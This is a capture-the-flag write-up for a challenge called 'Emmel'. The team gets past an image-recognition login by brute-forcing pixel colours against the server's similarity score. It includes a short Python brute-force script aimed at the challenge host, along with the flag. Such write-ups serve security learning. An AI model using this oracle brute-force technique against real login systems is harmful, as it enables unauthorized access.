 ```yaml
---
layout: default
title: Emmel
parent: Miscellaneous
permalink: /:path/
nav_order: 5
---
```

# Emmel

> Points: 1222 [2000]

## Description

> Investigators have found a curious login page on a server belonging to COViD. Can you get past the login screen?
>
> [Login Page](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:40751/)

## Solution
The approach to this challenge was to create a picture that was most similar to the image being stored on the server. 

Initially we uploaded quite a few pictures but did not manage to obtain more than 50%. 

Hence, we wrote a script to brute force all rgb for a single pixel however that did not work as well.

As such we wrote a script that bruteforces rgb for a 4 pixels and that manage to work.

Submitting [40.jpg](40.jpg) gave us the flag `govtech-csg{I_L0V3_G00D_D0GG0S!}`

```python
from requests import post
from PIL import Image
color =[]

for i in range(0,256):
    img = Image.new('RGB',(2,2),color=(0,0,0))
    img.putpixel((0,0),(255,43,0))
    img.putpixel((0,1),(17,2,2))
    img.putpixel((1,0),(1,i,0))
    img.save("{}.jpg".format(i))
    files = {'file': open('{}.jpg'.format(i),'rb')}
    url = "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:40751/recognize"
    r = post(url, files=files)
    reg = re.findall(r"Similarity: (.*)%", r.text)
    if reg:
        val = float(reg[0])
        color.append((val,i))
    else:
        print(r.text)
        print(i)
        break;  
color.sort(reverse=True)
print(color[:5])
```

## Fun fact
After obtaining the flag we saw the floating dogos. Apparently that picture if converted to jpg could also solve the challenge LMAO
Try it yourself! It's in [dogos.jpg](dogos.jpg)
## Flag
`govtech-csg{I_L0V3_G00D_D0GG0S!}`
